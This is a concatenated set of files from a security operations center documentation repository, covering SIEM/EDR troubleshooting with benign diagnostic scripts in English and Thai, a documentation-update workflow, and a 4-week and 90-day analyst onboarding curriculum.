-   [SANS SOC Survey](https://www.sans.org/white-papers/soc-survey/)


---

## File: 04_Troubleshooting/Common_Issues.en.md

# Standard Troubleshooting Methodology

This document outlines a systematic approach to troubleshooting complex issues within the SOC infrastructure.

## 1. Defining the Problem

```mermaid
graph TD
    Issue[Issue Reported] --> Define[Define Scope/Symptoms]
    Define --> Layer1{Physical/Net?}
    Layer1 -->|Fail| FixNet[Fix Connectivity]
    Layer1 -->|Pass| Layer2{App/Service?}
    Layer2 -->|Fail| FixApp[Restart/Debug Service]
    Layer2 -->|Pass| Layer3{Data Flow?}
    Layer3 -->|Fail| FixData[Check Config/Logs]
    Layer3 -->|Pass| RCA[Root Cause Analysis]
```

-   **Symptoms**: What is exactly failing? (e.g., "Alerts not showing", "Login failed").
-   **Scope**: Is it affecting one user, one sensor, or the whole platform?
-   **Timeline**: When did it start? Was there a recent change (Deployment/RFC)?

## 2. The Troubleshooting Workflow

### 2.1 Physical/Network Layer
-   **Connectivity**: Can you Ping/Telnet/Netcat to the target service?
-   **Firewall**: Are ports blocked? (Check Firewall/Security Group logs).
-   **DNS**: Is the hostname resolving correctly? (`nslookup`, `dig`).

### 2.2 Application/Service Layer
-   **Service Status**: Is the service process running? (`systemctl status`, `docker ps`).
-   **Resource Usage**: Check CPU/RAM/Disk usage (`top`, `df -h`). High load can cause timeouts.
-   **Logs**: **ALWAYS** check the logs.
    -   `/var/log/syslog`
    -   Application specific logs (STDERR/STDOUT).

### 2.3 Data Flow Verification
-   **Source**: Check if the agent is reading the file.
-   **Transport**: Check status on Log Forwarder/Broker (Kafka/RabbitMQ).
-   **Destination**: Check indexing errors in SIEM.

## 3. Common Failure Scenarios

### 3.1 Log Source Stopped Reporting
1.  Check Network/VPN status between Source and SOC.
2.  Verify Agent service status on the source.
3.  Check for disk space exhaustion on the source (Agent stops if disk full).

### 3.2 False Positives Spikes
1.  Identify the specific rule triggering.
2.  Analyze the pattern triggering the alert.
3.  Adjust the rule logic or add a suppression (whitelist) entry.

## 4. Documentation
-   Document the Root Cause Analysis (RCA).
-   Update Knowledge Base (KB) and SOPs to prevent recurrence.

### RCA Template

| Field | Description |
|:---|:---|
| **Issue ID** | Unique identifier |
| **Date Detected** | When the issue was first observed |
| **Affected Systems** | SIEM, EDR, log sources, etc. |
| **Impact** | Alerts missed, false positives, performance degradation |
| **Root Cause** | Technical explanation of why it happened |
| **Resolution** | Steps taken to fix the issue |
| **Prevention** | Changes to prevent recurrence |
| **Owner** | Who resolved and who approved |

## 5. Diagnostic Commands Quick Reference

| Purpose | Command | Platform |
|:---|:---|:---|
| Check service status | `systemctl status <service>` | Linux |
| View recent logs | `journalctl -u <service> --since "1 hour ago"` | Linux |
| Check disk space | `df -h` | Linux/macOS |
| Check memory usage | `free -m` | Linux |
| Test TCP connectivity | `nc -zv <host> <port>` | Linux/macOS |
| DNS lookup | `dig <hostname>` / `nslookup <hostname>` | All |
| Check process status | `docker ps` / `docker logs <container>` | Docker |
| Check certificate expiry | `openssl s_client -connect <host>:443 2>/dev/null \| openssl x509 -noout -dates` | All |

## 6. Additional Failure Scenarios

### 6.1 SIEM Alert Delay
1. Check SIEM indexing queue status (backlog)
2. Verify data pipeline health (Kafka/Logstash/etc.)
3. Check for hot storage capacity issues
4. Review correlation rule performance (slow queries)

### 6.2 EDR Agent Not Reporting
1. Verify agent service is running on endpoint
2. Check network connectivity to EDR cloud/management server
3. Verify agent version is compatible with server
4. Check for endpoint firewall blocking agent traffic

### 6.3 Authentication Failures (SOC Tools)
1. Verify IdP/SSO service health
2. Check MFA provider status
3. Verify user account is not locked out
4. Check certificate validity for SAML/OAuth configurations

### 6.4 SOAR Playbook Failures
1. Check API connectivity to integrated tools
2. Verify API keys/tokens are not expired
3. Review playbook execution logs for error details
4. Check rate limiting on target API endpoints

## 7. Troubleshooting Scripts

### Check SIEM Data Pipeline Health
```bash
#!/bin/bash
# Check if data is flowing from source to SIEM
echo "=== Data Pipeline Health Check ==="

# 1. Check Elasticsearch cluster health
curl -s http://localhost:9200/_cluster/health | python3 -m json.tool

# 2. Check Logstash pipeline
curl -s http://localhost:9600/_node/stats/pipelines | python3 -m json.tool | grep -E "events|queue"

# 3. Check Filebeat status
systemctl status filebeat | head -5

# 4. Check Kafka consumer lag (if applicable)
# kafka-consumer-groups.sh --bootstrap-server localhost:9092 --group logstash --describe

echo "=== Check Complete ==="
```

### Check EDR Agent Health Across Fleet
```powershell
# Get list of endpoints with stale EDR check-ins (>24 hours)
$threshold = (Get-Date).AddHours(-24)

# For CrowdStrike (via API)
# $staleHosts = Get-CsHost | Where-Object { $_.last_seen -lt $threshold }

# For Sysmon (local check)
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 1 |
    Select-Object TimeCreated, Message |
    Format-Table -AutoSize
```

### Verify Log Source Completeness
```bash
#!/bin/bash
# Compare expected vs actual log sources in SIEM
echo "=== Log Source Audit ==="

# Expected sources (update this list)
EXPECTED_SOURCES=(
    "firewall" "active_directory" "dns" "proxy"
    "endpoint_edr" "email_gateway" "vpn" "waf"
    "database" "cloud_trail"
)

for source in "${EXPECTED_SOURCES[@]}"; do
    # Check if we received logs in the last hour
    count=$(curl -s "http://localhost:9200/logs-*/_count?q=source_type:${source}%20AND%20@timestamp:>now-1h" | python3 -c "import sys,json; print(json.load(sys.stdin)['count'])" 2>/dev/null)
    if [ "${count:-0}" -gt 0 ]; then
        echo "  ✅ ${source}: ${count} events/hour"
    else
        echo "  ❌ ${source}: NO DATA — investigate!"
    fi
done
```

## 8. Escalation Matrix for Infrastructure Issues

| Issue | First Response | Escalate After | Escalate To |
|:---|:---|:---|:---|
| SIEM search slow | Check cluster health | 15 min | SOC Engineer |
| Log source offline | Verify agent/network | 30 min | IT + SOC Engineer |
| EDR console unreachable | Check cloud status page | 5 min | Vendor support |
| SOAR playbook fails | Check API connectivity | 15 min | SOC Engineer |
| Alert queue > 200 | Add analyst capacity | 1 hour | SOC Manager |
| Disk space > 90% | Identify largest indices | 30 min | SOC Engineer |
| SSL certificate expired | Renew immediately | Immediate | SOC Engineer |
| MFA outage | Switch to backup auth | 5 min | IT + IAM team |

### Network Connectivity Check
```bash
#!/bin/bash
echo "=== Network Connectivity Check ==="

TARGETS=(
    "siem.internal:9200"
    "edr.internal:443"
    "soar.internal:443"
    "misp.internal:443"
    "ticketing.internal:443"
)

for target in "${TARGETS[@]}"; do
    host=$(echo $target | cut -d: -f1)
    port=$(echo $target | cut -d: -f2)
    if nc -zw3 "$host" "$port" 2>/dev/null; then
        echo "  ✅ $target — reachable"
    else
        echo "  ❌ $target — UNREACHABLE"
    fi
done
```

## Related Documents
-   [Tool Integration Strategy](../03_User_Guides/Integration_Hub.en.md)
-   [SOC Infrastructure Setup](../10_Training_Onboarding/System_Activation.en.md)
-   [Deployment Procedures](../02_Platform_Operations/Deployment_Procedures.en.md)

## References
-   [USE Method (Brendan Gregg)](https://www.brendangregg.com/usemethod.html)
-   [Google SRE Handbook](https://sre.google/sre-book/table-of-contents/)


---

## File: 04_Troubleshooting/Common_Issues.th.md

# วิธีการแก้ปัญหามาตรฐาน (Standard Troubleshooting Methodology)

เอกสารนี้ระบุแนวทางที่เป็นระบบในการแก้ปัญหาระบบโครงสร้างพื้นฐาน SOC

## 1. นิยามปัญหา (Defining the Problem)

```mermaid
graph TD
    Issue[รับแจ้งปัญหา] --> Define[ระบุขอบเขต/อาการ]
    Define --> Layer1{ระดับ Network?}
    Layer1 -->|ล่ม| FixNet[แก้การเชื่อมต่อ]
    Layer1 -->|ปกติ| Layer2{ระดับ App?}
    Layer2 -->|ล่ม| FixApp[Restart/Debug Service]
    Layer2 -->|ปกติ| Layer3{ระดับ Data?}
    Layer3 -->|ล่ม| FixData[เช็ค Config/Logs]
    Layer3 -->|ปกติ| RCA[วิเคราะห์เชิงลึก]
```

-   **อาการ**: อะไรล้มเหลว? (เช่น "Alert ไม่ขึ้น", "Login ไม่ได้")
-   **ขอบเขต**: กระทบผู้ใช้คนเดียว, Sensor ตัวเดียว, หรือทั้งระบบ?
-   **เวลา**: เริ่มเป็นเมื่อไหร่? มีการเปลี่ยนแปลงระบบเร็วๆ นี้หรือไม่ (Deployment/RFC)?

## 2. ขั้นตอนการแก้ปัญหา (The Troubleshooting Workflow)

### 2.1 ระดับเครือข่าย (Physical/Network Layer)
-   **การเชื่อมต่อ**: Ping/Telnet/Netcat หาปลายทางเจอหรือไม่?
-   **Firewall**: พอร์ตถูกบล็อกหรือไม่? (เช็ค Log Firewall)
-   **DNS**: ชื่อ Hostname แปลงเป็น IP ถูกต้องหรือไม่? (`nslookup`, `dig`)

### 2.2 ระดับแอปพลิเคชัน (Application/Service Layer)
-   **สถานะบริการ**: Process ทำงานอยู่หรือไม่? (`systemctl status`, `docker ps`)
-   **ทรัพยากร**: เช็ค CPU/RAM/Disk (`top`, `df -h`) โหลดสูงอาจทำให้ Timeout
-   **Logs**: **ต้อง** ตรวจสอบ Log เสมอ
    -   `/var/log/syslog`
    -   Application specific logs

### 2.3 ตรวจสอบการไหลของข้อมูล (Data Flow Verification)
-   **ต้นทาง**: Agent อ่านไฟล์เจอหรือไม่?
-   **ระหว่างทาง**: สถานะบน Log Forwarder/Broker (Kafka/RabbitMQ) เป็นอย่างไร?
-   **ปลายทาง**: มี Error ในการ Index เข้า SIEM หรือไม่?

## 3. สถานการณ์ที่พบบ่อย (Common Failure Scenarios)

### 3.1 Log Source หยุดส่งข้อมูล
1.  เช็ค Network/VPN ระหว่างต้นทางและ SOC
2.  เช็คสถานะ Agent service บนเครื่องต้นทาง
3.  เช็คพื้นที่ว่าง Disk บนเครื่องต้นทาง (Agent มักหยุดทำงานถ้า Disk เต็ม)

### 3.2 แจ้งเตือนผิดพลาดพุ่งสูง (False Positives Spikes)
1.  ระบุกฎที่เป็นปัญหา
2.  วิเคราะห์ Pattern ที่ทำให้เกิด Alert
3.  ปรับ Logic ของกฎ หรือเพิ่ม Whitelist

## 4. การทำเอกสาร (Documentation)
-   บันทึกการวิเคราะห์สาเหตุที่แท้จริง (RCA)
-   อัปเดต Knowledge Base (KB) และ SOP เพื่อป้องกันการเกิดซ้ำ

### เทมเพลต RCA

| ฟิลด์ | คำอธิบาย |
|:---|:---|
| **รหัสปัญหา** | หมายเลขเฉพาะ |
| **วันที่ตรวจพบ** | เมื่อพบปัญหาครั้งแรก |
| **ระบบที่ได้รับผลกระทบ** | SIEM, EDR, log sources ฯลฯ |
| **ผลกระทบ** | แจ้งเตือนพลาด, FP, ประสิทธิภาพลดลง |
| **สาเหตุหลัก** | คำอธิบายทางเทคนิค |
| **การแก้ไข** | ขั้นตอนที่ดำเนินการ |
| **การป้องกัน** | การเปลี่ยนแปลงเพื่อป้องกันการเกิดซ้ำ |

## คำสั่งวินิจฉัยอ้างอิง

| วัตถุประสงค์ | คำสั่ง | แพลตฟอร์ม |
|:---|:---|:---|
| ตรวจสอบสถานะบริการ | `systemctl status <service>` | Linux |
| ดูล็อกล่าสุด | `journalctl -u <service> --since "1 hour ago"` | Linux |
| ตรวจสอบพื้นที่ดิสก์ | `df -h` | Linux/macOS |
| ทดสอบการเชื่อมต่อ TCP | `nc -zv <host> <port>` | Linux/macOS |
| ตรวจสอบ DNS | `dig <hostname>` / `nslookup <hostname>` | ทั้งหมด |
| ตรวจสอบ Container | `docker ps` / `docker logs <container>` | Docker |

## สถานการณ์ความล้มเหลวเพิ่มเติม

### SIEM Alert ล่าช้า
1. ตรวจสอบสถานะ Queue ของ SIEM indexing
2. ตรวจสอบ Data pipeline (Kafka/Logstash)
3. ตรวจสอบพื้นที่จัดเก็บ Hot storage

### EDR Agent ไม่รายงาน
1. ตรวจสอบ Agent service บน Endpoint
2. ตรวจสอบการเชื่อมต่อเครือข่ายไปยัง EDR server
3. ตรวจสอบเวอร์ชัน Agent ว่ารองรับ

### SOAR Playbook ล้มเหลว
1. ตรวจสอบ API connectivity
2. ตรวจสอบ API key/token ว่าหมดอายุหรือไม่
3. ตรวจสอบ Rate limiting ของ API endpoint

## 7. สคริปต์แก้ปัญหา

### ตรวจสอบ SIEM Data Pipeline
```bash
#!/bin/bash
echo "=== ตรวจสุขภาพ Data Pipeline ==="

# 1. ตรวจ Elasticsearch cluster health
curl -s http://localhost:9200/_cluster/health | python3 -m json.tool

# 2. ตรวจ Logstash pipeline
curl -s http://localhost:9600/_node/stats/pipelines | python3 -m json.tool | grep -E "events|queue"

# 3. ตรวจ Filebeat status
systemctl status filebeat | head -5

echo "=== ตรวจเสร็จ ==="
```

### ตรวจสอบ EDR Agent
```powershell
# ตรวจ endpoint ที่ EDR check-in ช้า (>24 ชม.)
$threshold = (Get-Date).AddHours(-24)

# Sysmon (ตรวจในเครื่อง)
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 1 |
    Select-Object TimeCreated, Message |
    Format-Table -AutoSize
```

### ตรวจสอบ Log Source ครบถ้วน
```bash
#!/bin/bash
echo "=== ตรวจสอบ Log Source ==="

EXPECTED_SOURCES=(
    "firewall" "active_directory" "dns" "proxy"
    "endpoint_edr" "email_gateway" "vpn" "waf"
    "database" "cloud_trail"
)

for source in "${EXPECTED_SOURCES[@]}"; do
    count=$(curl -s "http://localhost:9200/logs-*/_count?q=source_type:${source}%20AND%20@timestamp:>now-1h" | python3 -c "import sys,json; print(json.load(sys.stdin)['count'])" 2>/dev/null)
    if [ "${count:-0}" -gt 0 ]; then
        echo "  ✅ ${source}: ${count} events/hour"
    else
        echo "  ❌ ${source}: ไม่มีข้อมูล — ตรวจสอบ!"
    fi
done
```

## 8. Escalation Matrix สำหรับปัญหา Infrastructure

| ปัญหา | การตอบแรก | Escalate หลัง | Escalate ไปยัง |
|:---|:---|:---|:---|
| SIEM search ช้า | ตรวจ cluster health | 15 นาที | SOC Engineer |
| Log source offline | ตรวจ agent/network | 30 นาที | IT + SOC Engineer |
| EDR console เข้าไม่ได้ | ตรวจ cloud status page | 5 นาที | Vendor support |
| SOAR playbook fail | ตรวจ API connectivity | 15 นาที | SOC Engineer |
| Alert queue > 200 | เพิ่ม analyst | 1 ชม. | SOC Manager |
| Disk space > 90% | หา index ใหญ่สุด | 30 นาที | SOC Engineer |
| SSL certificate หมดอายุ | Renew ทันที | ทันที | SOC Engineer |
| MFA ล่ม | เปลี่ยนเป็น backup auth | 5 นาที | IT + IAM team |

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [กลยุทธ์การเชื่อมต่อเครื่องมือ](../03_User_Guides/Integration_Hub.th.md)
-   [การติดตั้ง SOC](../10_Training_Onboarding/System_Activation.th.md)
-   [ขั้นตอนการ Deploy](../02_Platform_Operations/Deployment_Procedures.th.md)

### Quick Fix Reference

| Issue | First Action | Escalate If |
|:---|:---|:---|
| SIEM slow | Check indexer load | CPU > 90% for 30 min |
| No alerts | Verify log ingestion | Source offline > 15 min |
| Login failure | Reset password/MFA | Account locked 3x |
| Agent offline | Restart service | > 3 endpoints |

### ตรวจสอบ Network Connectivity
```bash
#!/bin/bash
echo "=== ตรวจ Network Connectivity ==="

TARGETS=(
    "siem.internal:9200"
    "edr.internal:443"
    "soar.internal:443"
    "misp.internal:443"
    "ticketing.internal:443"
)

for target in "${TARGETS[@]}"; do
    host=$(echo $target | cut -d: -f1)
    port=$(echo $target | cut -d: -f2)
    if nc -zw3 "$host" "$port" 2>/dev/null; then
        echo "  ✅ $target — reachable"
    else
        echo "  ❌ $target — UNREACHABLE"
    fi
done
```

## References
-   [USE Method (Brendan Gregg)](https://www.brendangregg.com/usemethod.html)
-   [Google SRE Handbook](https://sre.google/sre-book/table-of-contents/)

## Quick Fix Reference (อ้างอิงด่วน)

| ปัญหา | Action แรก | Escalate ถ้า |
|:---|:---|:---|
| SIEM ช้า | ตรวจ indexer load | CPU > 90% เกิน 30 นาที |
| ไม่มี alert | ตรวจ log ingestion | Source offline > 15 นาที |
| Login ล้มเหลว | Reset password/MFA | Account locked 3 ครั้ง |
| Agent offline | Restart service | > 3 endpoints |
| Dashboard error | Clear cache, reload | ยังไม่หายหลัง restart |
| API timeout | ตรวจ rate limit | ล้มเหลวต่อเนื่อง > 5 นาที |


---

## File: .agent/workflows/update-docs.md

---
description: How to update documentation when adding, modifying, or removing SOC SOPs
---

# Update SOC Documentation Workflow

When adding, modifying, or removing SOC SOP documents, follow these steps to keep versioning and tracking up to date.

// turbo-all

## 1. Create or modify the document

- Create both EN (`.en.md`) and TH (`.th.md`) versions
- Include standard metadata at the top of each document:
  ```markdown
  **Document ID**: [SECTION]-SOP-[NUMBER]
  **Version**: 1.0
  **Classification**: Internal
  **Last Updated**: YYYY-MM-DD
  ```
- Place the file in the correct directory (e.g., `06_Operations_Management/`, `05_Incident_Response/`)

## 2. Update README.md

- Add the new document to the appropriate section table in `README.md`
- Use the format: `| **📌 Document Name** | [Read](path/to/file.en.md) | [อ่าน](path/to/file.th.md) |`
- Place it in the correct sub-group within the section

## 3. Update mkdocs.yml

- Add nav entries for both EN and TH versions under the appropriate section
- Place them near related documents

## 4. Update CHANGELOG.md

- Add a new version entry at the top of `CHANGELOG.md` (below the header)
- Follow [Keep a Changelog](https://keepachangelog.com) format:
  ```markdown
  ## [X.Y.Z] - YYYY-MM-DD

  ### Added
  - **Document Name** (EN+TH) — Brief description

  ### Changed
  - Description of any modifications to existing documents
  ```
- Version bump rules:
  - **Patch** (X.Y.Z+1): Typo fixes, formatting
  - **Minor** (X.Y+1.0): New documents, content updates
  - **Major** (X+1.0.0): Major restructuring, breaking changes

## 5. Update VERSION_TRACKER.md

- Add a new row in the appropriate section table:
  ```markdown
  | [Document Name](path/to/file.en.md) | 1.0 | YYYY-MM-DD | ✅ Current | YYYY+1-MM-DD |
  ```
- If modifying an existing document, update its Version, Last Updated, and Next Review columns
- Update the **Summary** table at the bottom if document counts changed
- Update the `Repository version` and `Last tracker update` at the bottom

## 6. Validate and push

```bash
cd /Users/pop7/Code/SOCSOP
python3 tools/check_links.py
python3 tools/export_docs.py
git add -A
git commit -m "feat: add [Document Name] (EN+TH)"
git push
```

## 7. Tag version (for minor/major releases)

```bash
git tag -a vX.Y.Z -m "Description of changes"
git push origin vX.Y.Z
```

## Quick Reference

| File | When to update |
|:---|:---|
| `README.md` | Every new/removed document |
| `mkdocs.yml` | Every new/removed document |
| `CHANGELOG.md` | Every commit batch |
| `VERSION_TRACKER.md` | Every new/modified document |
| Git tag | Minor and major releases |


---

## File: 10_Training_Onboarding/Analyst_Onboarding_Path.en.md

# SOC Analyst Onboarding Curriculum (4-Week Path)

Welcome to the Security Operations Center (SOC). This 4-week program is designed to take you from "Day 1" to "Production Ready".

```mermaid
gantt
    title SOC Analyst Onboarding Timeline
    dateFormat  YYYY-MM-DD
    axisFormat  Week %W
    
    section Foundation
    Access & Tools       :a1, 2023-10-01, 3d
    Data Governance      :a2, after a1, 2d
    
    section Operations
    Incident Response    :b1, 2023-10-08, 5d
    Playbook Study       :b2, after b1, 5d
    
    section Detection
    Rule Engineering     :c1, 2023-10-22, 5d
    
    section Validation
    Purple Team Drill    :d1, 2023-10-29, 5d
```

## Week 1: Foundations (Infrastructure & Governance)
**Goal**: Understand *where* we work and *what* we protect.

-   **Day 1: Orientation & Access**
    -   Read: [System Activation](../10_Training_Onboarding/System_Activation.en.md) - Understand our generic stack (SIEM, EDR, SOAR).
    -   Task: Verify access to all dashboards.
-   **Day 2: Data & Privacy**
    -   Read: [Data Governance](../02_Platform_Operations/Database_Management.en.md) - Learn data classification (Restricted vs Public).
    -   Task: Locate where "Critical" data is stored in our SIEM.
-   **Day 3: Change Management**
    -   Read: [Deployment Procedures](../02_Platform_Operations/Deployment_Procedures.en.md) - Learn how we deploy changes (RFC/CAB).
    -   Read: [Template - Change Request](../11_Reporting_Templates/change_request_rfc.en.md).

## Week 2: Incident Response (The "How-To")
**Goal**: Learn how to handle alerts using Standard Playbooks.

-   **Day 1: The Framework**
    -   Read: [Incident Response Framework](../05_Incident_Response/Framework.en.md) - The NIST lifecycle.
    -   Read: [Template - Incident Report](../11_Reporting_Templates/incident_report.en.md).
-   **Day 2: Core Playbooks (Identity)**
    -   Read: [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.en.md).
    -   Read: [PB-04 Brute Force](../05_Incident_Response/Playbooks/Brute_Force.en.md).
-   **Day 3: Core Playbooks (Endpoint)**
    -   Read: [PB-02 Ransomware](../05_Incident_Response/Playbooks/Ransomware.en.md).
    -   Read: [PB-03 Malware](../05_Incident_Response/Playbooks/Malware_Infection.en.md).

## Week 3: Detection Engineering (The "Why")
**Goal**: Understand why an alert triggered and how to tune it.

-   **Day 1: The Lifecycle**
    -   Read: [Content Management](../03_User_Guides/Content_Management.en.md) - How we create rules.
-   **Day 2: Sigma Rules**
    -   Explore: `08_Detection_Engineering/sigma_rules/` - Review the YAML files.
    -   Task: Compare `proc_office_spawn_powershell.yml` with **PB-01**.

## Week 4: Simulation & Validation (Purple Team)
**Goal**: Prove your skills by defending against a simulated attack.

-   **Day 1: Testing Tools**
    -   Read: [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md).
    -   Read: [Atomic Test Map](../09_Simulation_Testing/Atomic_Test_Map.en.md).
-   **Day 2: Final Exam (Drill)**
    -   Task: Run `Invoke-AtomicTest T1059.001` (Phishing Simulation) in the Test Lab.
    -   Task: Triage the alert in SIEM.
    -   Task: Submit a mock [Incident Report](../11_Reporting_Templates/incident_report.en.md).

## Competency Assessment

| Skill | Assessment Method | Pass Criteria |
|:---|:---|:---|
| SIEM Query Writing | Practical exam | Write 3 correct queries in 30 min |
| Alert Triage | Mock alert exercise | Correctly classify 8/10 alerts |
| Incident Documentation | Submit mock IR report | Manager review score ≥ 80% |
| Playbook Execution | Tabletop exercise | Follow playbook with no critical gaps |
| Tool Proficiency | Hands-on demo | Navigate SIEM, EDR, SOAR independently |
| Communication | Escalation role-play | Correct escalation path and content |

## Mentorship Program

| Week | Mentor Activity | New Analyst Activity |
|:---|:---|:---|
| Week 1 | Shadow mentor during shift | Observe triage, take notes, ask questions |
| Week 2 | Mentor reviews analyst's first triages | Triage alerts with mentor review before closing |
| Week 3 | Mentor available for questions only | Triage independently, escalate if unsure |
| Week 4 | Mentor evaluates final drill | Complete drill independently |

## Graduation Criteria

To be cleared for independent production shifts, new analysts must:

- [ ] Complete all 4 weeks of curriculum
- [ ] Pass competency assessment (all skills ≥ 80%)
- [ ] Complete at least 1 purple team drill
- [ ] Submit 1 mock incident report (approved by manager)
- [ ] Demonstrate proficiency in SIEM, EDR, and ticketing tools
- [ ] Receive mentor sign-off
- [ ] Complete PDPA awareness training

## Continuing Education

| Certification | Target Timeline | Relevance |
|:---|:---|:---|
| CompTIA Security+ | Month 3 | Foundational security knowledge |
| SANS SEC401 / GISF | Month 6 | SOC operations fundamentals |
| CySA+ / GCIH | Year 1 | Incident handling expertise |
| SANS SEC504 / GCIH | Year 1-2 | Advanced incident response |
| BTL1 (Blue Team Level 1) | Year 1 | Practical blue team skills |

## 90-Day Onboarding Plan

### Week 1-2: Foundation
| Day | Activity | Deliverable |
|:---|:---|:---|
| 1 | Welcome, badge, account setup | Access to all SOC tools |
| 2 | Read SOC 101 + Glossary | Quiz: 80% pass |
| 3 | SIEM orientation (read-only) | Can navigate dashboards |
| 4 | Ticketing system training | Can create/update tickets |
| 5 | Shadow T1 analyst (full shift) | Observation notes |
| 6-10 | Complete Security+ self-study modules | Module completion |

### Week 3-4: Skill Building
| Day | Activity | Deliverable |
|:---|:---|:---|
| 11-12 | Read top 5 playbooks | Playbook summary |
| 13-14 | SIEM query lab exercises | 10 queries completed |
| 15 | EDR tool orientation | Can navigate EDR console |
| 16-17 | Log analysis workshop | Analyze 20 sample alerts |
| 18-20 | Shadow T1 + handle low-priority alerts | First 5 tickets closed |

### Month 2: Supervised Practice
| Week | Activity | Deliverable |
|:---|:---|:---|
| 5 | Handle alerts independently (T2 reviews) | 80%+ accuracy |
| 6 | Complete all 10 common alert type training | Scorecard: 80%+ |
| 7 | First solo shift (senior on standby) | Shift report |
| 8 | Escalation practice scenarios | 3 scenario passes |

### Month 3: Independence
| Week | Activity | Deliverable |
|:---|:---|:---|
| 9 | Full independent shift work | MTTD within SLA |
| 10 | Purple team exercise participation | Exercise report |
| 11 | Write 1 knowledge base article | Published KB article |
| 12 | 90-day review with SOC Manager | Performance evaluation |

### Completion Criteria
```
□ Can independently triage all 10 common alert types
□ MTTD consistently within SLA (≤ 60 min)
□ FP identification rate > 80%
□ Correct escalation decisions > 90%
□ Complete and accurate ticket documentation
□ Security+ exam passed (or scheduled)
□ Positive feedback from shift mentors
```

## Related Documents
-   [Training Checklist](Training_Checklist.en.md)
-   [Incident Response Framework](../05_Incident_Response/Framework.en.md)
-   [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md)

## References
-   [SANS SOC Analyst Training](https://www.sans.org/cyber-security-courses/)
-   [NICE Cybersecurity Workforce Framework](https://niccs.cisa.gov/workforce-development/nice-framework)


---

## File: 10_Training_Onboarding/Analyst_Onboarding_Path.th.md

# หลักสูตรการฝึกอบรมเจ้าหน้าที่ SOC (หลักสูตร 4 สัปดาห์)

ยินดีต้อนรับสู่ศูนย์ปฏิบัติการความปลอดภัย (SOC) โปรแกรมนี้ออกแบบมาเพื่อให้คุณพร้อมปฏิบัติงานจริงภายใน 4 สัปดาห์

```mermaid
gantt
    title กรอบเวลาการฝึกอบรม (Timeline)
    dateFormat  YYYY-MM-DD
    axisFormat  สัปดาห์ที่ %W
    
    section พื้นฐาน
    การเข้าถึงเครื่องมือ    :a1, 2023-10-01, 3d
    ธรรมาภิบาลข้อมูล       :a2, after a1, 2d
    
    section การปฏิบัติงาน
    การตอบสนองเหตุการณ์   :b1, 2023-10-08, 5d
    ศึกษา Playbook      :b2, after b1, 5d
    
    section การตรวจจับ
    วิศวกรรมกฎตรวจจับ     :c1, 2023-10-22, 5d
    
    section การประเมิน
    ซ้อมรบ (Drill)       :d1, 2023-10-29, 5d
```

## สัปดาห์ที่ 1: พื้นฐาน (Infrastructure & Governance)
**เป้าหมาย**: เข้าใจว่าเราทำงาน *ที่ไหน* และปกป้อง *อะไร*

-   **วันที่ 1: การปฐมนิเทศและการเข้าถึงระบบ**
    -   อ่าน: [System Activation](../10_Training_Onboarding/System_Activation.th.md) - ทำความเข้าใจ Stack ของเรา (SIEM, EDR, SOAR)
    -   งาน: ตรวจสอบสิทธิ์การเข้าถึง Dashboard ทั้งหมด
-   **วันที่ 2: ข้อมูลและความเป็นส่วนตัว**
    -   อ่าน: [Data Governance](../02_Platform_Operations/Database_Management.th.md) - เรียนรู้ประเภทข้อมูล (Restricted vs Public)
    -   งาน: ระบุตำแหน่งที่เก็บข้อมูล "Critical" ใน SIEM
-   **วันที่ 3: การจัดการการเปลี่ยนแปลง**
    -   อ่าน: [Deployment Procedures](../02_Platform_Operations/Deployment_Procedures.th.md) - เรียนรู้วิธีการ Deploy (RFC/CAB)
    -   อ่าน: [แบบฟอร์ม - Change Request](../11_Reporting_Templates/change_request_rfc.th.md)

## สัปดาห์ที่ 2: การรับมือภัยคุกคาม (Incident Response)
**เป้าหมาย**: เรียนรู้วิธีจัดการกับ Alert โดยใช้ Playbook มาตรฐาน

-   **วันที่ 1: กรอบการทำงาน**
    -   อ่าน: [Incident Response Framework](../05_Incident_Response/Framework.th.md) - วงจรชีวิตตาม NIST
    -   อ่าน: [แบบฟอร์ม - Incident Report](../11_Reporting_Templates/incident_report.th.md)
-   **วันที่ 2: Playbook หลัก (Identity)**
    -   อ่าน: [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.th.md)
    -   อ่าน: [PB-04 Brute Force](../05_Incident_Response/Playbooks/Brute_Force.th.md)
-   **วันที่ 3: Playbook หลัก (Endpoint)**
    -   อ่าน: [PB-02 Ransomware](../05_Incident_Response/Playbooks/Ransomware.th.md)
    -   อ่าน: [PB-03 Malware](../05_Incident_Response/Playbooks/Malware_Infection.th.md)

## สัปดาห์ที่ 3: วิศวกรรมการตรวจจับ (Detection Engineering)
**เป้าหมาย**: เข้าใจว่า Alert ทำงานอย่างไรและปรับจูนอย่างไร

-   **วันที่ 1: วงจรชีวิต**
    -   อ่าน: [Content Management](../03_User_Guides/Content_Management.th.md) - วิธีสร้างกฎ
-   **วันที่ 2: Sigma Rules**
    -   สำรวจ: `08_Detection_Engineering/sigma_rules/` - ดูไฟล์ YAML
    -   งาน: เปรียบเทียบ `proc_office_spawn_powershell.yml` กับ **PB-01**

## สัปดาห์ที่ 4: การจำลองและตรวจสอบ (Purple Team)
**เป้าหมาย**: พิสูจน์ทักษะของคุณโดยการป้องกันการโจมตีจำลอง

-   **วันที่ 1: เครื่องมือทดสอบ**
    -   อ่าน: [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md)
    -   อ่าน: [Atomic Test Map](../09_Simulation_Testing/Atomic_Test_Map.en.md)
-   **วันที่ 2: การสอบปฏิบัติ (Drill)**
    -   งาน: รัน `Invoke-AtomicTest T1059.001` (Phishing Simulation) ในห้อง Lab
    -   งาน: Triage Alert ใน SIEM
    -   งาน: ส่ง [Incident Report](../11_Reporting_Templates/incident_report.th.md) จำลอง

## การประเมินสมรรถนะ

| ทักษะ | วิธีการประเมิน | เกณฑ์ผ่าน |
|:---|:---|:---|
| การเขียน SIEM Query | สอบปฏิบัติ | เขียน 3 Query ถูกต้องใน 30 นาที |
| การคัดกรองแจ้งเตือน | แบบฝึกหัดจำลอง | จำแนก 8/10 แจ้งเตือนถูกต้อง |
| การทำเอกสารเหตุการณ์ | ส่งรายงาน IR จำลอง | คะแนนรีวิว ≥ 80% |
